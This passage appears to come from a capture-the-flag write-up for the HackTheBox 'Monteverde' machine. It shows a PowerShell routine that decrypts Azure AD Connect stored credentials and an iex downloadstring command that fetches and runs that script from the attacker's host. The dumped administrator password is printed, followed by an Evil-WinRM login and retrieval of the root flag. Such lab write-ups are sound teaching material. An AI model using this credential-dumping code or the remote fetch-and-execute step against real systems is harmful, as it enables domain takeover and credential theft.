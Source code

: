 ```
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)

```

Now I can just use `python3 -m http.server 80` on my localhost, and run it on Monteverde:

```
*Evil-WinRM* PS C:\Program Files> iex(new-object net.webclient).downloadstring('http://10.10.14.11/Get-MSOLCredentials.ps1')
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!

```

Interestingly, it gives the administrator account password. That must be the replication account here, instead of the MSOL\_ account I saw in the documentation.

### Shell Over WinRM

With this password, I can get a WinRM shell as administrator:

```

root@kali# evil-winrm -i 10.10.10.172 -u administrator -p 'd0m@in4dminyeah!'

Evil-WinRM shell v2.1

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```

And I can grab the flag:

```
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
12909612************************

```

## Beyond Root

### Successful Exploit in Detail
